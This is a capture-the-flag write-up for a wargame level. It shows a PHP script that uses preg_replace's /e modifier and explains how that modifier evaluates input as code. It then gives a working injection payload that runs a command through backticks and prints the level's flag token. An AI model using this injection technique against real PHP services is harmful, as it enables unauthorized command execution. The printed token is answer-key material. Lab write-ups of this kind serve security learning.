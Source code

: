 


# **Level06**

### **Walk through**

For this 6th level we got two files, a .php script and a binary, respectively level06.php and level06.

`cat level06.php`

```php
#!/usr/bin/php
<?php

// Define a function 'y' that replaces '.' with ' x ' and '@' with ' y' 
// in a given string.

function y($m) {
    $m = preg_replace("/\./", " x ", $m);
    $m = preg_replace("/@/", " y", $m);
    return $m;
}

// Define a function 'x' that takes two parameters, reads the contents of a file
// specified by the first parameter, and performs some regular expression
// replacements on the content.

function x($y, $z) {

    // Read the contents of the file specified by $y into a variable $a.
    $a = file_get_contents($y);

    // Replace occurrences of '[x (anything)]' with the result of calling function
	// 'y' on the captured content.
    $a = preg_replace("/(\[x (.*)\])/e", "y(\"\\2\")", $a);

    // Replace '[' with '(' and ']' with ')' in the content.
    $a = preg_replace("/\[/", "(", $a);
    $a = preg_replace("/\]/", ")", $a);

    // Return the modified content.
    return $a;
}

// Call function 'x' with command-line arguments and print the result.
$r = x($argv[1], $argv[2]);
print $r;
?>

```

We should take special attention to this precise line:

**`$a = preg_replace("/(\[x (.*)\])/e", "y(\"\\2\")", $a);`**

Indeed, the `/e` is a well known vulnerability in php script. The e modifier in PHP regular expressions stands for "eval." When used, it allows the evaluation of the matched pattern as PHP code. We will use it at our advantage. We'll write a script that we'll pass as argument at ./level06.

```
echo '[x ${`getflag`}]' > /tmp/flag06
./level06 /tmp/flag06

PHP Notice:  Undefined variable: Check flag.Here is your token : wiok45aaoguiboiki2tuin6ub
 in /home/user/level06/level06.php(4) : regexp code on line 1

```

The flag is **wiok45aaoguiboiki2tuin6ub**

We will use it to log as level07

`su level07`

